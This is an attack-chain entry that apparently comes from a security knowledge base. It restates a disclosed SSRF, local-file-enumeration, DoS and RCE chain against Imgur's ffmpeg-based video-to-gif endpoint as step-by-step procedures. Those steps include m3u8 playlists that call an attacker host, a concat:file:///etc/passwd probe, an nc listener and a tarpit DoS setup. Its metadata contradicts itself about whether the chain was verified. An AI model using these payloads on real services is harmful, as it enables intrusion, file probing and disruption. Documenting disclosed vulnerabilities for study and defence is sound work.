

---
tags:
  - ssrf
  - lfi
  - dos
  - rce
  - ffmpeg
  - m3u8
  - imgur
type: attack_chain
tools:
  - '[[tools/nc]]'
  - '[[tools/PHP]]'
  - '[[tools/ffmpeg]]'
  - '[[tools/TARPIT]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Prepare-Imgur-Video-Upload-Request]]'
  - '[[procedures/Serve-Fake-Video-with-m3u8-Playlist]]'
  - '[[procedures/Capture-SSRF-Request-with-Netcat]]'
  - '[[procedures/Enumerate-Local-Files-via-Concat-Protocol]]'
  - '[[procedures/Craft-DoS-Payload-to-Hang-FFmpeg]]'
  - '[[procedures/Test-RCE-via-Chained-glibc-Vulnerability]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
  - '[[Network Denial of Service]]'
  - '[[Exploitation for Client Execution]]'
updated_at: '2025-12-14T04:39:09.604Z'
description: >-
  Multi-stage attack exploiting Imgur's video-to-gif upload endpoint to achieve
  SSRF, local file enumeration, DoS, and potential RCE through malicious m3u8
  playlists processed by ffmpeg.
skill_level: intermediate
impact_level: high
id: 25745571-3e47-42b8-9d27-820c7ea18ba9
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
  - '[[Network Denial of Service]]'
  - '[[Exploitation for Client Execution]]'
---
# SSRF Local File Enumeration DoS and RCE in Imgur Video-to-GIF Endpoint via m3u8 Playlists

The vulnerability in Imgur's video-to-gif upload endpoint at https://imgur.com/vidgif/upload allows attackers to exploit ffmpeg's handling of m3u8 playlists disguised as video files with a video/avi content-type. By crafting PHP scripts that serve fake video content including m3u8 playlists with attacker-controlled URLs or file paths, Imgur downloads and processes the content via ffmpeg, bypassing content-type checks. This enables arbitrary HTTP requests from Imgur servers to external or internal destinations (SSRF), file existence checks via the concat protocol (local file enumeration), resource exhaustion via tarpitting (DoS), and potential remote code execution by chaining with the CVE-2015-7457 glibc vulnerability causing ffmpeg segfaults.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/PHP]]
- [[tools/nc]]
- [[tools/ffmpeg]]
- [[tools/TARPIT]]

### Target Environment

- Imgur's video-to-gif endpoint at https://imgur.com/vidgif/upload
- Required services/ports: HTTP on port 443 (Imgur), attacker-controlled ports like 12346
- Network access requirements: Public internet access to Imgur and ability to host PHP server

### Initial Access Requirements

- No credentials required
- Attacker must control a public web server (e.g., gradeco.ru) to host malicious payloads
- No prior access to Imgur systems needed

## Detailed Attack Procedures

### Step 1: Prepare Upload Request
procedure: [[procedures/Prepare-Imgur-Video-Upload-Request]]

**Objective**: Submit a video conversion request to Imgur's endpoint with a malicious URL pointing to the attacker's fake video.

**Instructions**: Create an HTML form or use a tool like curl to POST to the endpoint with parameters source and url set to the attacker's m3u8.php script, along with start=0.1 and stop=1.0.

**Expected Output**: Imgur accepts the request and begins processing the URL, triggering ffmpeg to fetch and parse the content.

**Success Indicators**:
- Request accepted without error (200 OK from Imgur)
- No immediate rejection based on content-type

### Step 2: Serve Malicious m3u8 Playlist
procedure: [[procedures/Serve-Fake-Video-with-m3u8-Playlist]]

**Objective**: Host a PHP script that serves m3u8 playlist content disguised as a video/avi file to trigger SSRF when processed by ffmpeg.

**Instructions**: Deploy a PHP script at http://gradeco.ru/imgur/m3u8.php that sets Content-Type: video/avi and Content-Length: 1234, then outputs an m3u8 playlist starting with #EXTM3U, #EXT-X-MEDIA-SEQUENCE:0, #EXTINF:10.0, followed by http://www.gradeco.ru:12346/BASICSSRF, and ending with #EXT-X-ENDLIST.

**Expected Output**: When fetched by Imgur's ffmpeg, the playlist causes an HTTP request to the attacker's controlled URL.

**Success Indicators**:
- HTTP request received on attacker's server
- User-Agent in request shows Lavf/55.48.100 (ffmpeg version)

### Step 3: Capture SSRF Request
procedure: [[procedures/Capture-SSRF-Request-with-Netcat]]

**Objective**: Listen for the incoming SSRF request from Imgur's ffmpeg to confirm arbitrary HTTP access.

**Instructions**: Use [[commands/nc-listen-ssrf]] to listen on port 12346:

```bash
nc -v -l 12346
```

Monitor for the GET request to /BASICSSRF.

**Expected Output**: Connection from Imgur's IP (e.g., 54.82.61.224) with GET /BASICSSRF HTTP/1.1, User-Agent: Lavf/55.48.100.

**Success Indicators**:
- Incoming connection and request logged
- Confirms SSRF to external port

### Step 4: Enumerate Local Files
procedure: [[procedures/Enumerate-Local-Files-via-Concat-Protocol]]

**Objective**: Use the concat protocol in m3u8 to check for existence of local files like /etc/passwd on Imgur's server.

**Instructions**: Modify the m3u8 playlist in the PHP script to include concat:file:///etc/passwd|http://gradeco.ru:12346/. Submit the updated request to Imgur and monitor the attacker's server for the HTTP request.

**Expected Output**: If the file exists, a request to http://gradeco.ru:12346/ is made; otherwise, no request.

**Success Indicators**:
- Request received indicates file existence
- No request indicates file absence

### Step 5: Execute DoS
procedure: [[procedures/Craft-DoS-Payload-to-Hang-FFmpeg]]

**Objective**: Cause resource exhaustion by hanging ffmpeg processes through incomplete or tarpitted responses.

**Instructions**: Create m3u8-dos.php serving Content-Type: video/avi, Content-Length:1, with playlist concat:http://www.gradeco.ru/imgur/m3u8-head.m3u8?2|file:///etc/issue. The head file includes http://gradeco.ru:12346/?.txt. POST to endpoint with source: http://gradeco.ru/imgur/m3u8-dos.php, start:0.1, stop:10. Redirect port 12346 to [[tools/TARPIT]] to hold connections open.

**Expected Output**: FFmpeg hangs waiting for data, consuming server resources for the specified duration (e.g., 10 seconds per request).

**Success Indicators**:
- Multiple hanging processes on Imgur side
- Tarpitted connections remain open

### Step 6: Chain to RCE
procedure: [[procedures/Test-RCE-via-Chained-glibc-Vulnerability]]

**Objective**: Trigger a segfault in ffmpeg via CVE-2015-7457 in glibc for potential RCE.

**Instructions**: Use m3u8-cve.php to make ffmpeg request http://imgurtests.tk/imgur/head.avi, where DNS for imgurtests.tk resolves to a CVE-2015-7457 payload IP. Submit the request to Imgur and monitor for segfault indicators.

**Expected Output**: FFmpeg segfaults, potentially exploitable for RCE on Imgur's glibc-based system.

**Success Indicators**:
- Error logs or crashes indicating segfault
- Confirmation of vulnerability chaining

## Attack Chain Summary

### Key Achievements

1. Achieved SSRF to external and internal resources via m3u8 playlists.
2. Enumerated local files using concat protocol.
3. Induced DoS through resource exhaustion.
4. Demonstrated potential RCE path via glibc chaining.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery
- [[Network Denial of Service]] Network Denial of Service
- [[Exploitation for Client Execution]] Exploitation for Client Execution

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
